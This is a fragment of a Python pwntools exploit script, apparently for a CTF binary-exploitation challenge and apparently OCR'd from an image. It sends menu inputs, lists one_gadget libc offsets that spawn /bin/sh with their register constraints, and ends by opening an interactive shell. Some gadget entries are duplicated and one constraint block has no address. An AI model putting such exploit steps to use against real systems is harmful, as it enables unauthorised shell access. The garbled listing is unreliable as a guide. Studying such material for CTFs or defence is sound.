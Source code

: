 ```python
sh.sendline("1")
sh.recvuntil(" index\n")
sh.sendline("2")
sh.recvuntil("input size")
sh.sendline("60")
#attach(sh)
'''
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

'''


sh.interactive()
```
